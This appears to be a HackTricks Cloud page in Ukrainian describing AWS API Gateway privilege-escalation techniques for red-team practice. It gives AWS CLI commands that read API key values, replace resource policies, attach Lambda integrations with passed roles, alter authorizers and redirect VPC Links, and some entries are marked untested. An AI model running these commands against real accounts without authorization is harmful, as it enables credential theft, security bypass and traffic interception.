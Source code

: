 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

З цим дозволом ви можете генерувати ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway create-api-key
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:GET`

З цією дозволом ви можете отримати згенеровані ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

З цими дозволами можливо змінити політику ресурсу API, щоб надати собі доступ до його виклику та зловживати потенційним доступом, який може мати API gateway (наприклад, виклик вразливої lambda).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Потенційний вплив:** Ви, зазвичай, не зможете підвищити привілеї безпосередньо за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з правами `apigateway:PutIntegration`, `apigateway:CreateDeployment` та `iam:PassRole` може **додати нову інтеграцію до існуючого API Gateway REST API з функцією Lambda, до якої прикріплена роль IAM**. Зловмисник може потім **викликати функцію Lambda для виконання довільного коду і потенційно отримати доступ до ресурсів, пов'язаних з роллю IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Доступ до ресурсів, пов'язаних з IAM роллю функції Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з правами `apigateway:UpdateAuthorizer` та `apigateway:CreateDeployment` може **модифікувати існуючий авторизатор API Gateway**, щоб обійти перевірки безпеки або виконати довільний код під час виконання запитів до API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Обхід перевірок безпеки, несанкціонований доступ до ресурсів API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з дозволом `apigateway:UpdateVpcLink` може **змінити існуюче VPC Link, щоб вказати на інший Network Load Balancer, потенційно перенаправляючи приватний API-трафік на несанкціоновані або шкідливі ресурси**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Потенційний вплив**: Несанкціонований доступ до приватних ресурсів API, перехоплення або порушення трафіку API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
